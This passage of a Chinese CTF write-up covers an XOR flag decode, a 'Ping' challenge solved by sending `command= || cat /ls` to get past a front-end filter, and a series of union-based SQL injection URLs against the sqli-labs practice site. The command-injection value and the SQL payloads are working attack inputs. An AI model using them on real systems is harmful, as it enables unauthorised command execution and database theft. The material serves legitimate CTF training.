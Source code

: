 怀疑是异或加密，编写代码尝试：

```python
c='EXXH_MpjxBxYnjggrM~eerv'
flag=''
for i in c:
    flag+=chr(ord(i)^11)
print(flag)
```

发现是 flag

通过查看 wp 发现另外一个方法是通过使用 esgenerate 直接将 json 转化为可执行的 js ，然后通过 node 执行：

![](./img/JS-工具转js.png)

---

## [LitCTF 2023]Ping

https://www.nssctf.cn/problem/3873

* 考点：RCE，前端绕过，Linux命令
* 工具：hackbar

由于过滤条件是写在 javascript 中的，所以只在通过网页输入访问时有效，只要通过数据包发送即可绕过过滤，使用hackbar构建 POST 请求包，body 为 `command= || cat /ls`
即在ping命令执行失败后执行后面的 cat 指令，获得 flag

---

## SQL注入：

```
------基于错误的GET单引号字符型注入------

# 查回显点
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
# 查数据库名
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,database(); --+
# 查表
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
# 查列
http://sqli-labs.bachang.org/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
# 查字段
```